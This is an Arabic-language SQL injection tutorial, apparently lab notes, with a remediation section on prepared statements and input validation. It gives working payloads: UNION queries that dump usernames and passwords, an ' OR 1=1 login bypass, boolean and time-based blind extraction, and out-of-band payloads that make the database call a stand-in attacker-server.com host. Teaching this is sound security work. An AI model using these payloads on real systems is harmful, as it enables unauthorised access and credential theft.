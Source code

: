 # SQL injection

<details>
   <summary> in-band SQLI </summary>

🧪 الجزء العملي - خطوة بخطوة
1. اكتشاف الثغرة:
افتح المتصفح، وروح للرابط اللي فيه id=1.

جرب تحط ' بعد الرقم كده:


```
id=1'
```
هتلاقي رسالة خطأ ظهرت.
ده معناه إن المدخل بتاعك داخل فعلاً جوه استعلام SQL، وده تأكيد إن فيه ثغرة.

2. نبدأ نستغلها بـ UNION
جرب كده:

```
id=1 UNION SELECT 1
```
هتلاقي رسالة خطأ بتقولك إن عدد الأعمدة مش متطابق.

جرب تزود الأعمدة:
```
id=1 UNION SELECT 1,2
```
لسه في Error؟ زود كمان:

```
id=1 UNION SELECT 1,2,3
```
كده اشتغل! ليه؟ لأن الاستعلام الأصلي بيرجع 3 أعمدة، فلازم الاتحاد يكون بنفس العدد.

3. نخلي الـ UNION يشتغل لوحده
يعني نمنع الاستعلام الأصلي من إرجاع نتيجة.

اعمل id=0 بدلاً من 1:
```
id=0 UNION SELECT 1,2,3
```
كده الصفحة هتعرض النتائج اللي انت رجعتها.

4. نعرض اسم قاعدة البيانات:
```
id=0 UNION SELECT 1,2,database()
```
هيظهر لك اسم قاعدة البيانات، مثلاً: sqli_one.

5. نعرض أسماء الجداول داخل قاعدة البيانات:
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
النتيجة:
```
article,staff_users
```

يبقى فيه جدول اسمه staff_users ده غالبًا فيه اليوزرز.

6. نعرف أسماء الأعمدة داخل جدول staff_users:
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
النتيجة:
```
id,username,password
```

7. نجيب اليوزرات والباسوردات:
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
هتلاقي النتائج بتظهر كده:

```
martin:123456
admin:qwerty
```


✅ ملخص سريع:

الخطوة | الهدف
------------|---------------------
' | تأكد وجود الثغرة
UNION SELECT 1,2,3 | تأكد من عدد الأعمدة
database() | جبت اسم قاعدة البيانات
information_schema.tables | جبت أسماء الجداول
information_schema.columns | جبت أسماء الأعمدة
staff_users | جبت البيانات الحساسة زي الباسورد

  
</details>






<details>
     <summary>Blind SQLI (Authentication Bypass)</summary>

      🕶️ Blind SQL Injection (الحقنة العمياء)
يعني إيه "Blind"؟
يعني مافيش رسائل خطأ، ولا داتا طالعة على الشاشة تقولك إن الهجمة نجحت.

لكن بالرغم من كده، الحقنة (injection) شغالة، بس السيرفر مابيظهرلكش حاجة مباشرة تقولك كده.

🧠 طيب نستفيد منها إزاي؟
كل اللي إحنا محتاجينه هو "رد فعل بسيط" من الموقع.
يعني مثلاً:

لو طلعلك صفحة معينة = الاستعلام نجح.

لو فضلك على نفس الصفحة = الاستعلام فشل.

وده كفاية إننا نبدأ نشتغل ونستخرج معلومات من قاعدة البيانات حتى لو بشكل بطيء.

🔓 Bypassing Authentication (تخطي تسجيل الدخول)
دي واحدة من أسهل الطرق في Blind SQLi، وممكن نكسر بيها فورم تسجيل الدخول.

🤔 إزاي بيشتغل تسجيل الدخول أصلاً؟
الموقع بيعمل استعلام بالشكل ده:

```
SELECT * FROM users WHERE username = 'ali' AND password = '123456' LIMIT 1;
```
لو فيه مستخدم بالبيانات دي، الاستعلام بيرجع صف واحد → يبقى المستخدم يدخل.

📌 إحنا نعمل إيه؟ نضحك على الاستعلام!
بدل ما نحاول نخمن Username وPassword، إحنا هنخلي الاستعلام يرجع نتيجة مهما كانت البيانات غلط.

🎯 الطريقة:
في خانة الـ Password، نكتب:

```
' OR 1=1;--
```
ده بيحوّل الاستعلام إلى:

```
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1;--
```
شرحها:

'' AND '' → ده هيرجع false.

OR 1=1 → ده true دايمًا.

-- → ده بيعلّق باقي الاستعلام (يعني أي حاجة بعده مش بتتنفذ).

فالاستعلام كله بيرجع true، وكأنك سجلت دخولك بنجاح، حتى من غير Username أو Password!

✅ النتيجة:
لو الموقع معمول بشكل غير آمن، هيسمحلك بالدخول من غير بيانات صحيحة.

🛠️ ملحوظة مهمة:
لو ما نفعش:

جرب أنواع مختلفة من علامات التنصيص: " OR 1=1-- أو حتى ') OR ('1'='1.

جرب تحط القيمة في خانة الـ Username بدل Password.

🔐 ملخص سريع:



   العنصر | الوصف
   -------------|----------------
الهدف | تخطي تسجيل الدخول
نوع الهجوم | Blind SQLi
الوسيلة | استغلال منطق التحقق من صحة البيانات
الباي لود | ' OR 1=1;--
        
</details>






<details>
   <summary>Blind SQLi - (Boolean Based)</summary>

   🕵️‍♂️ يعني إيه Boolean-Based Blind SQL Injection؟
النوع ده من الـ SQLi بيشتغل على إنك ما بتاخدش بيانات واضحة من السيرفر، لكن السيرفر بيرد عليك بـ حاجة ثنائية (صح أو غلط)، زي:

true / false

1 / 0

yes / no

أو مثلًا تظهر صفحة أو ما تظهرش.

والحيلة هنا إنك تراقب رد الفعل على الاستعلام، مش البيانات نفسها.

🎯 المثال العملي:
رابط زيه كده:

```
https://website.thm/checkuser?username=admin
```
الرد بيكون حاجة شبه:

```
{"taken":true}
```
يعني اسم المستخدم موجود.

لو كتبنا:

```
https://website.thm/checkuser?username=admin123
```
هيكون الرد:

```
{"taken":false}
```
يعني الاسم مش موجود.

فهمنا كده إن فيه API بتشيك هل اسم المستخدم موجود ولا لأ.

🛠️ الاستعلام اللي السيرفر بيشغله غالبًا شكله كده:
```
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
واحنا بنقدر نتحكم في %username% من خلال الرابط.

✅ الهدف الأول: نعرف عدد الأعمدة
نبدأ نضيف استعلام UNION، ونجرب نعرف عدد الأعمدة في الجدول.
نجرب مثلاً:

```
admin123' UNION SELECT 1;--
```
لو السيرفر رجّع false → يبقى عدد الأعمدة مش 1.
نزيد شوية:

```
admin123' UNION SELECT 1,2;--
```
برضو false → مش 2.

لحد ما نوصل:

```
admin123' UNION SELECT 1,2,3;--
```
وهنا هنلاقي {"taken": true}
يبقى كده عرفنا إن الجدول بيرجع 3 أعمدة. ✅

🔍 الهدف الثاني: نعرف اسم قاعدة البيانات
نستخدم الدالة database() اللي بترجع اسم قاعدة البيانات الحالية.

نجرب حاجة بسيطة:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
% معناها أي حاجة، فالنتيجة هتبقى true.

نجرب نحصر أكتر:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```
لو النتيجة false → يبقى الاسم مش بيبدأ بـ a.

نكمل نحاول بالحروف:

b%

c%

... لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```
يعني الاسم بيبدأ بـ s.

نبدأ نحاول حرف حرف:

sa%

sb%

sq%

...

لحد ما نوصل لـ sqli_three ✅

🧱 الهدف الثالث: نكتشف أسماء الجداول
نروح على information_schema.tables ونستخدم نفس الطريقة:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'a%';--
```
لو false → نغير الحرف.

نجرب لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name='users';--
```
يبقى فيه جدول اسمه users ✅

🧩 الهدف الرابع: نكتشف أسماء الأعمدة في جدول users
نروح على:

```
information_schema.columns
```
ونجرب:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'a%';--
```
كل مرة نكتشف عمود، نستبعده عشان نكمل نجيب الباقي:

```
... AND column_name != 'id'
```
وهكذا نكررها لحد ما نكتشف الأعمدة:

id

username

password ✅

🔐 الهدف الأخير: نكتشف بيانات المستخدم (اسم وكلمة مرور)
نبدأ باسم المستخدم:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--
```
نكرر لحد ما نعرف إن فيه username اسمه admin.

بعد كده نجيب الباسورد:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نجرب حرف حرف لحد ما نوصل للباسورد الكامل:

```
3845 ✅
```
🎉 النتيجة:
قدرنا من غير ما نشوف بيانات مباشرة نعرف:

اسم قاعدة البيانات.

اسم الجدول.

أسماء الأعمدة.

اسم المستخدم.

الباسورد.

وكل ده عن طريق الملاحظة الذكية لردود السيرفر.
   
   
</details>













<details>
   <summary>Blind SQLi - (Time Based)</summary>

   ⏱️ إيه هو Time-Based Blind SQL Injection؟
النوع ده بيشتغل على مبدأ:

"لو الاستعلام اتحقق صح، نفّذ SLEEP(x) واتأخر في الرد."

ولو ما اتأخرش، يبقى الاستعلام فشل أو ما تنفذش بالطريقة اللي إحنا عايزينها.

🔧 بنستخدم فين SLEEP()؟
في قواعد البيانات زي MySQL، فيه دالة اسمها SLEEP(5) بتخلّي السيرفر يستنى 5 ثواني قبل ما يرد.

💡 الهدف الأول: نعرف عدد الأعمدة
بنبدأ باستعلام بسيط زي:

```
admin123' UNION SELECT SLEEP(5);--
```
لو السيرفر ما اتأخرش → يبقى الاستعلام غلط.

نزوّد عمود كده:

```
admin123' UNION SELECT SLEEP(5), 2;--
```
لو حصل تأخير 5 ثواني → يبقى عدد الأعمدة = 2 ✅

لو ما حصلش، نزود:

```
admin123' UNION SELECT SLEEP(5), 2, 3;--
```
ونكمل لحد ما نحصل على التأخير → ده معناه إننا عرفنا عدد الأعمدة.

🧱 زي boolean-based، نكمل بنفس الطريقة لكن بنقيس الوقت:
🧠 اكتشاف اسم قاعدة البيانات:
نستخدم database() ومعاها شرط LIKE وسليب:

```
admin123' UNION SELECT SLEEP(5), 2 WHERE database() LIKE 's%';--
```
لو حصل تأخير → يبقى الاسم بيبدأ بـ s
لو ما حصلش → جرّب حرف تاني (a%, b%, c%, ...)

نكمّل حرف حرف:

sa%

sql%

sqli_t% ... لحد ما نوصل لـ sqli_three ✅

🧩 اكتشاف الجداول:
نروح على information_schema.tables ونكتب:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--
```
لو حصل تأخير → فيه جدول بيبدأ بـ u.

نجرّب أكتر لحد ما نجيب:

```
table_name = 'users'
```
🧠 اكتشاف الأعمدة:
نكرر نفس الفكرة:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'u%';--
```
كل مرة نكتشف عمود نعمل:

```
... AND column_name != 'username'
```
ونكررها لحد ما نكتشف: id, username, password ✅

🔓 استخراج بيانات الدخول:
أولًا: نجيب اسم المستخدم
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'a%';--
```
لحد ما نوصل لـ admin

ثانيًا: نجيب الباسورد
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نكمل:

38%

384%

3845 ✅

🎉 الخلاصة:
بالـ Time-Based SQLi:

بنكتشف الأعمدة من خلال زمن التأخير.

بنكرر نفس خطوات Boolean-Based لكن بذكاء مع الزمن.

الاختبار الحقيقي في المثابرة والتجريب واحدة واحدة.
   
</details>









<details>
   <summary>Out-of-Band SQLi</summary>

   📡 إيه هو Out-of-Band SQLi؟
النوع ده مش بيعتمد على ظهور بيانات مباشرة في الصفحة (زي In-Band)
ولا على تأخيرات أو استجابات منطقية (زي Boolean أو Time-based)

إنما بيعتمد على فكرة مختلفة شوية:

"أنا هبعت حاجة في الاستعلام تخلي قاعدة البيانات تتصل بجهازي أو سيرفر خارجي، وتبعتلي منه البيانات!"

يعني فيه قناتين:

🎯 قناة الهجوم = الريكوست اللي انت بعتّه للسيرفر (مثلاً POST أو GET).

📥 قناة التجميع = الاتصال اللي بيحصل من قاعدة البيانات لجهازك، زي DNS أو HTTP.

🧠 ازاي بيحصل الهجوم ده؟
خلينا نوضحها بخطوات:

🔍 تكتشف نقطة SQLi (زي أي نوع تاني).

💉 تكتب Payload خاص بيستخدم دوال زي:

LOAD_FILE()

xp_dirtree (في MSSQL)

UTL_HTTP.REQUEST() (في Oracle)

أو dnslookup() لو قاعدة البيانات تدعمها.

🌐 الاستعلام يجبر قاعدة البيانات تبعت طلب خارجي (DNS أو HTTP) لسيرفر انت بتتحكم فيه.

🛰️ انت بتراقب السيرفر ده، وتشوف البيانات وهي بتجيلك من الـ payload.

🧪 مثال عملي: (MySQL)
لو عندك دومين أو سيرفر انت بتملكه زي:

```
attacker-server.com
```
تكتب في خانة vulnerable:


```
' UNION SELECT LOAD_FILE('\\\\attacker-server.com\\data')--
```
أو (لو تشتغل مع MySQL/DNS):

```
'; SELECT extractvalue(xmltype('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker-server.com"> %ext;]>'),'/');--
```
ده يجبر قاعدة البيانات إنها تحاول تفتح اتصال HTTP لسيرفرك، وفيه ممكن تحط البايلود يبعَتلك داتا.

💡 في MSSQL:
```
'; exec master..xp_dirtree '\\attacker-server.com\share';--
```
ده بيخلي السيرفر يحاول يتصل على SMB Share، وده انت بتراقبه من جهازك أو سيرفرك.

🛠️ إزاي أراقب الطلبات دي؟
تشغّل أداة على جهازك أو سيرفرك زي:

🧰 Burp Collaborator أو

🛡️ Responder (لـ SMB)

🐍 أو حتى Script Python بـ Flask أو SimpleHTTPServer

🔬 DNS server مخصص، زي dnslog.cn

📛 ملحوظات مهمة:
النوع ده مش دايمًا بيشتغل، لأنه بيعتمد على:

إعدادات قاعدة البيانات

وجود صلاحيات كافية

إن الـ firewall ميسدّش الـ outgoing requests


🔐 الخلاصة:


العنصر | النوع
----------|----------------
طريقته | قناة هجوم + قناة استقبال خارجي
أدوات مساعدة | DNSLog / Burp Collaborator / Responder
يعتمد على | إرسال بيانات خارجية (HTTP, DNS, SMB)
فعال لما؟ | لما باقي الأنواع ماتديش أي feedback


   
</details>







---

## **``Remediation``**



🛡️ إزاي نحمي التطبيق من SQL Injection؟
فيه 3 وسائل أساسية اتكلم عنها الكلام اللي فوق، وهنشرح كل واحدة:

1. ✅ Prepared Statements (الاستعلامات المجهزة مسبقًا)
📌 يعني إيه؟
بدل ما تكتب الكود كده:

```
"SELECT * FROM users WHERE username = '" + userInput + "'"
```
بتكتبه بالشكل الآمن ده:

🔒 مثال آمن بلغة PHP (PDO):
```
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
```
أو بلغة Python:

```
cursor.execute("SELECT * FROM users WHERE username = %s", (user_input,))
```
✅ ده بيخلي الـ DB تعرف الفرق بين الكود والداتا، ومفيش injection ممكن يحصل.

2. 🧼 Input Validation (التحقق من البيانات)
📌 يعني إيه؟
تتأكد إن المستخدم بيكتب الحاجة اللي المفروض يكتبها فقط.

مثلًا: لو خانة فيها رقم، ماينفعش تقبل حروف أو رموز.

🔒 أمثلة:
في خانة ID → لازم يكون رقم بس (123)

في خانة username → تمنع الرموز الغريبة (< > ' " %)

📋 أفضل طريقة؟

استخدم Allow List (يعني تحدد إيه المسموح بيه بدل ما تمنع إيه الممنوع)

مثال: تقبل حروف A-Z و 0-9 بس.

3. 🔐 Escaping User Input (تخبيط الرموز الخطيرة)
📌 يعني إيه؟
لو المستخدم كتب حاجة فيها ' أو " أو \، دي رموز ممكن تخرب الاستعلام وتسبب injection.

🔧 الحل:
"Escape" الرموز دي يعني تضيف \ قبلها.

مثال: ' تتحول لـ \'

📌 معظم لغات البرمجة أو مكتبات الـ SQL بتوفر دوال بتعمل كده تلقائي، بس مش دايمًا كفاية لوحدها.

✅ خلاصة الكلام:


الطريقة | الحماية من
-------------|-----------------
✅ Prepared Statements | SQLi تمامًا
✅ Input Validation | تقليل المخاطر جدًا
✅ Escaping User Input | حماية إضافية، بس مش كفاية لوحدها


















<details>
   <summary>fixing codes</summary>

   ✅ كود الحماية لكل نوع من أنواع SQLi

النوع	كود الثغرة	الريمدييشن (الحماية)
✅ Classic (In-Band)		
php
Copy
Edit
$id = $_GET['id'];
mysqli_query($conn, "SELECT * FROM users WHERE id = '$id'");
|

php
Copy
Edit
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
| | ✅ Error-Based |

php
Copy
Edit
$name = $_GET['name'];
mysqli_query($conn, "SELECT * FROM users WHERE name = '$name'");
|

php
Copy
Edit
$stmt = $conn->prepare("SELECT * FROM users WHERE name = ?");
$stmt->bind_param("s", $name);
$stmt->execute();
| | ✅ Boolean-Based Blind |

php
Copy
Edit
$user = $_GET['user'];
mysqli_query($conn, "SELECT * FROM users WHERE username = '$user'");
|

php
Copy
Edit
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $user);
$stmt->execute();
| | ✅ Time-Based Blind |
نفس الكود اللي فوق (الحقن هو المختلف)
| نفس الكود: prepare + bind_param
| | ✅ Union-Based |

php
Copy
Edit
$id = $_GET['id'];
mysqli_query($conn, "SELECT name FROM products WHERE id = $id");
|

php
Copy
Edit
$stmt = $conn->prepare("SELECT name FROM products WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
| | ✅ Stacked Queries |

php
Copy
Edit
$id = $_GET['id'];
mysqli_multi_query($conn, "SELECT * FROM users WHERE id = $id");
|

php
Copy
Edit
// Avoid multi_query
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
| | ✅ Second Order |

php
Copy
Edit
// البيانات بتتخزن من غير فلترة
$name = $_POST['name'];
mysqli_query($conn, "INSERT INTO users (name) VALUES ('$name')");
|

php
Copy
Edit
$name = htmlspecialchars($_POST['name']);
$stmt = $conn->prepare("INSERT INTO users (name) VALUES (?)");
$stmt->bind_param("s", $name);
$stmt->execute();
| | ✅ Out-of-Band |

sql
Copy
Edit
'; exec xp_dirtree '\\attacker.com\pwn' --
|

استخدم Least Privilege

عطل xp_cmdshell, xp_dirtree

منع الإتصالات الخارجية في السيرفر
| | ✅ NoSQL Injection (Mongo) |

js
Copy
Edit
let query = { username: req.body.username };
db.users.find(query);
|

js
Copy
Edit
const Joi = require("joi");
const schema = Joi.object({
  username: Joi.string().alphanum().required()
});
const value = await schema.validateAsync(req.body);
   
</details>










<details>
   <summary>what if code safe</summary>

   🛡️ هل كود الحماية = حماية 100% من SQL Injection؟
الإجابة باختصار: لا، مش دايمًا 100%، لكن بيقلل الخطر جدًا.

كود الحماية زي Prepared Statements أو Parameterized Queries فعلاً بيمنع SQL Injection من جذوره في أغلب السيناريوهات، لكن فيه حالات خاصة أو أخطاء بشرية ممكن تفتح باب للاختراق برضه، زي:

🐞 سيناريوهات ممكن يحصل فيها اختراق رغم كود الحماية:

السبب | التوضيح
--------------|-----------------------
🔁 المطور نسي يستخدم prepared statements في جزء من الكود | ممكن يبقى عامل حماية في login بس، ونسيها في صفحة البحث
🧠 المطور استخدم dynamic SQL جوه التطبيق | زي بناء جزء من الـ query بناءً على input المستخدم، حتى لو استخدم prepared statement
🧹 الإدخال ما اتفلترش أو اتحقق منه كويس | حصل injection في مستوى تاني (Second-Order)
📦 مكتبة أو ORM مش آمنة | في بعض ORM systems بتعمل escaping ضعيف أو configurable
🧪 تم دمج أو استخدام مكتبة بتعمل SQL داخليًا بدون حماية | زي reports أو plugins داخل CMS
🌍 تم اختراق مكان تاني في التطبيق (LFI, RCE...) وقدر المهاجم يوصل للداتا | SQLi مش لازم تبقى المدخل الوحيد للهجوم




👨‍💻 طرق ممكن يخترق بيها الهاكر رغم وجود Prepared Statements:
1. Second-Order SQLi
بتحصل لما input المستخدم بيتخزن في الداتا من غير فلترة، ويتنفذ لاحقًا داخل Query.

2. Logical Bugs
زي لما الـ Prepared Query بيستخدم في شرط غلط أو بياخد input من مكان unexpected.

3. SQLi داخل ORM
بعض ORMs بيسمحوا بكتابة raw queries، لو المطور استخدمها غلط، الثغرة ممكن ترجع.

4. Bypass Filtering
مثلاً الـ filter بيمنع -- لكن مش بيمنع #، أو بيمنع ' لكن مش CHAR().

5. Data Leakage
الموقع آمن من SQLi، لكن فيه ثغرات تانية بتسرب بيانات أو تساعد في الـ recon.

✅ عشان الموقع يبقى حصن:
✅ استخدم Prepared Statements فـ كل نقطة فيها SQL.

✅ افصل بين logic والبيانات تمامًا (no dynamic queries).

✅ افلتِر كل input قبل التخزين أو التنفيذ.

✅ امنع الحسابات من استخدام أوامر dangerous (xp_cmdshell مثلاً).

✅ راجع الأكواد القديمة أو اللي مش أنت كاتبها.

✅ شغّل WAF (Web Application Firewall).

✅ راقب الـ logs لأي تصرف غريب (زي delay أو query فاشلة).

✅ اعمل pentest دوري أو استخدم أدوات scanning (زي SQLMap, Burp...).


   
</details>











